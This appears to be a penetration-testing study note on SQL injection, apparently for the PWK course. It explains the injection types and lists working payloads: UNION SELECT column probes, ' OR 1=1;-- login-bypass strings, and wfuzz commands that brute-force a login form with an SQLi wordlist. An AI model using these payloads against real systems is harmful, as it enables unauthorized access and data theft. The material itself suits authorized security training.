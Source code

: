 ```yaml
---
description: 'PWK: 300-348'
---
```


# SQLi

## Introduction

Structured Query Language Injection (SQLi) is an attack on a web application database server that allows malicious queries to be executed.

* This vulnerability occurs when a web application communicates with a back end DB using user input that has not been properly validated

General Rule of Thumb:

<mark style="color:yellow;">Simply put, if you see a login page, ATTEMPT SQLi</mark>

## How a DB Works

* The SQL statement used to <mark style="color:green;">retrieve data</mark> is "<mark style="color:yellow;">SELECT</mark>"
* The SQL clause that can be used to <mark style="color:green;">retrieve data from multiple tables</mark> is "<mark style="color:yellow;">UNION</mark>"
* The SQL statement that is used to add data is "INSERT"

Conclusion:

Retrieving data from a <mark style="color:yellow;">single table in a database</mark> -- SELECT&#x20;

Retrieving data from <mark style="color:yellow;">multiple tables in a databse</mark> -- UNION

## Links

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
PayloadsAllTheThings GitHub Repo
{% endembed %}

{% embed url="https://www.securityidiots.com/Web-Pentest/SQL-Injection/" %}
SQLi Logic
{% endembed %}

## Manual MSSQL Injection

Do you see a seemingly vulnerable input field that you believe queries the database?

<mark style="color:yellow;">Make a request to it and capture it in burp // send to repeater tab</mark>

```
q=500' union select 1 -- 
q=500' union select 1,2 -- 
q=500' union select 1,2,3 -- 
q=500' union select 1,2,3,4 -- 
q=500' union select 1,2,3,4,5 -- 
q=500' union select 1,2,3,4,5,6,7 -- 
q=500' union select 1,2,3,4,5,6,7,8 -- 
```

* Be sure to check the response tab after you send every request as you do not know when it will return data!

### URL-based SQLi

* ID-based, this means that an object could possibly be referencing a back-end database
* Of course this is similar to Indirect Object Reference, or IDOR

Example:

`https://website/blog?id=1`

* We can attempt to mess with the ID parameter because it is calling the database

Instead, we can try:

`https://website.thm/blog?id=`<mark style="color:yellow;">`2;--`</mark>

* This will then make a call to a different table from the database as long as it is set to public

### In-Band SQLi

* In-Band SQLi is the easiest type of SQLi to detect and exploit
* In-Band means that the same method of communication that is used to exploit the database also has the ability to allow the attacker to receive the results
* <mark style="color:yellow;">Example: Exploit</mark> SQLi on page & <mark style="color:yellow;">Receive</mark> on the same page

### Error-Based SQLi

* This type of SQLi is the most useful for easily obtaining information about the database structure and what type of database is operating on the back-end
* Database errors are printed to the screen
* Can be used to enumerate a whole database

### Union-Based SQLi

* This type of SQLi utilizes the SQL UNION operator alongside a SELECT statement to return additional results
* This method is most common for extracting large amounts of information because it pulls from multiple tables

### Blind SQLi - Authentication Bypass

* Unlike In-Band SQLi, where we can see the results of our attack, Blind SQLi is when we get little to no feedback to confirm whether our injected queries were successful
* Authentication Bypass -- We do not want to dump the database, but rather get around the login

Bypass Example:

Username: <mark style="color:yellow;">' OR 1=1;--</mark>

Password: <mark style="color:yellow;">' OR 1=1;--</mark>

## Semi-Automatic SQLi

{% embed url="https://www.youtube.com/watch?v=c2OFrDVb3EM&t=2558s" %}
Go to 45 mins
{% endembed %}

1. Set URL variable ($URL) to your target you are attacking

```
export URL=http://192.168.1.181/index.php
echo $URL
```

&#x20; 2\. Find the backend processing for the handling of your input in the web application

* View source code
* Search for form elements they look like this: <mark style="color:yellow;">\<form</mark>
* Locate the script or action that it takes within that line of code it should be executing a php file
  * i.e. if it is <mark style="color:yellow;">checklogin.php</mark>
  * Make it your URL variable

```
export URL="http://192.168.1.181:80/checklogin.php"
```

&#x20;  3\. Locate quick-SQLi.txt, it should be something like: usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt

&#x20;  4\. Load up wfuzz:

* Check <mark style="color:yellow;">\<input name</mark>, in this case, it is <mark style="color:yellow;">myusername</mark>

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 "$URL"
```

* You may get get a lot back
* Look at the chars
* Go back to the web app and manually authenticate using that payload and username
* Go through them until you get an error
* Determine what a valid and invalid error is depending on char size
* Be sure to block out the invalid errors in wfuzz as seen below
* For example, these chars are 109 and 444

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 --hh 109,444 "$URL"
```

* Anything you get now should be attempted manually once more in the browser

## Authentication Bypass (one entry field)

Example:&#x20;

Please enter your ID:

```
123

1'

1'or 1=1-- -

' OR 1=1;--

' OR 1=1;--
```

* Be sure to Google your errors to attempt to identify the backend database
